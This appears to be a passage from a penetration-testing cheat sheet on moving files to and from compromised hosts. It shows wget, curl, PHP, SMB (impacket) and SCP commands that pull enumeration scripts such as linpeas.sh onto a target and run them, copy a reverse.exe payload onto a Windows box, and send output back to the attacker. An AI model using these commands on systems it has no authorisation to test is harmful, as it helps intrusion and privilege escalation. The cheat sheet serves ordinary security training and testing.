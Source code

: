 - Wget the file from the target box
```
wget http://172.16.6.1:8000/linpeas.sh
```
- Change permissions
```
chmod +x linpeas.sh
```
- Run the transfered file
```
./linpeas.sh
```
### PHP Web Server
````
php -S $ip:80
````
### Metasploit Web Server
````
use auxiliary/server/ftp
auxiliary/server/tftp
````
## SMB File Transfer 
- On kali box:
````
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
````
- On Windows (update the IP address with your Kali IP):
````
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
#Reverse Copy FROM Windows
copy output.txt \\10.10.14.22\kali\output.txt
````
## Wget
````
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh	Download a file using Wget
````
## Curl
````
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh	Download a file using cURL
````
## PHP Download
````
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'	
````
## Secure Copy Protocol
- SCP a file from your attack box to a target box
```
scp /home/kali/Documents/linpeas.sh user@10.10.10.100:/tmp
```
- This command copies the file linpeas.sh to user on the target box and places it in the /tmp directory.
- SCP a file from your attack box while on the command line of a target box and place it in your present working directory.
```
scp jack@172.16.6.1:/home/kali/Documents/linpeas.sh .
```
#### SCP More Example Usage
- Upload a file using SCP